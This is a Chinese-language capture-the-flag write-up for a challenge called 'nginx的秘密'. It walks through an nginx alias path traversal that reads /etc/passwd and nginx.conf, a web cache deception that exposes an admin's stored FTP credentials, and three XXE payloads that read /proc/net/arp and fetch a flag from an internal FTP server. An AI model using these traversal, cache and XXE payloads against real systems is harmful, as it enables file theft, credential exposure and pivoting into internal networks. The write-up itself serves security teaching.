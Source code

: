 # nginx的秘密wp

## 第一步，web缓存漏洞

完成一步需三个点结合。

第一点：

观察到`static`有存在目录穿越漏洞，虽然没开`autoindex`但依然可以通过`/static../etc/passwd`下载文件。结合提示从nginx的配置开始，可以想到下载`nginx.conf`，下载的路径是默认的nginx安装路径`/static../etc/nginx/nginx.conf`。可以看到nginx配置，diff一下可以看到关键点在

```
proxy_cache_path /tmp/mycache levels=1:2 keys_zone=my_cache:10m max_size=10g inactive=30s use_temp_path=off;
	
	limit_conn_zone $binary_remote_addr zone=conn:10m;
	limit_req_zone  $binary_remote_addr zone=allips:10m rate=2r/s;

	
	server {
	    listen 4455 default_server;
	    server_name localhost;

	    location /static {
	        alias /home/;
	    }

	    location ~* \.(css|js|gif|png){
	        proxy_cache             my_cache;
	        proxy_cache_valid       200 30s;
	        proxy_pass              http://bugweb.app:8000;
	        proxy_set_header        Host $host:$server_port;
	        proxy_ignore_headers    Expires Cache-Control Set-Cookie;
	    }

	    location / {
	        limit_conn conn 20;
	        proxy_pass       http://bugweb.app:8000;
	        proxy_set_header Host $host:$server_port;
	    }
	}
```

第二点

通过一些方法发现路由映射和些小问题。例如在扫描目录的时候可以发现这些。 ![editPNG](editPNG.PNG)

登陆后访问发现，这些路由都是访问的`edit`页面，随便测`editxxx`发现也映射到相同的页面。猜测后台路由的逻辑是只要访问的是以`edit`开头都相当于访问`edit`。

第三点：

有一个`post_bug`，这个点的功能是给提交bug给管理员，管理员会点击查看。有一个`write_plan`可以写一些东西，其他人看不见。如果你访问过`/user/admin`还会发现一个小tip管理员说自己已经把所有密码写在秘密计划里面了。

三个点结合起来可以触发web缓存漏洞。发送`http://xxxxx/write_plan/23333.png`后立即访问就可以看到管理员的秘密计划。 

![postbug](postbug.png)

看到的东西如下

![plan](plan.PNG)

拿到内网ftp服务器的账号密码。`syc10ver Eec5TN9fruOOTp2G`。

## 第二步，xxe的两个协议

如果有师傅把第一步做出来了，相信下面的操作也很简单了。虽然题目提示给的是从nginx开始，但是我总是感觉很多师傅第一个找到的漏洞点是xxe。触发点在上传计划那里，xml文件中的外部实体可以被解析。

之所以要多出一步，是我觉得有两个tip还是有些师傅没（强）有（行）关（增）注（加）到（难度）。

1. url的完整的形式是`scheme:[//[user[:password]@]host[:port]][/path][?query][#fragment]`
2. `proc`伪文件中有arp信息


我这里用的解析xml的python库加载外部实体的时候用的是urlopen，如果没记错的话只支持`ftp`，`http`，`file`。上传

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE person [<!ENTITY remote SYSTEM
"file:///proc/net/arp">]>
<plans>
	<plan>
		<content>payload &remote;</content>
	</plan>
</plans>
```

![proc](proc.PNG)

读目录，把两个ip都试试

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE person [<!ENTITY remote SYSTEM
"ftp://syc10ver:Eec5TN9fruOOTp2G@172.18.0.2/">]>
<plans>
	<plan>
		<content>payload &remote;</content>
	</plan>
</plans>
```

 ![dir](dir.PNG)

读flag

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE person [<!ENTITY remote SYSTEM
"ftp://syc10ver:Eec5TN9fruOOTp2G@172.18.0.2/flag327a6c4304ad5938eaf0efb6cc3e53dc">]>
<plans>
	<plan>
		<content>payload &remote;</content>
	</plan>
</plans>
```

最后get flag

 ![flag](flag.PNG)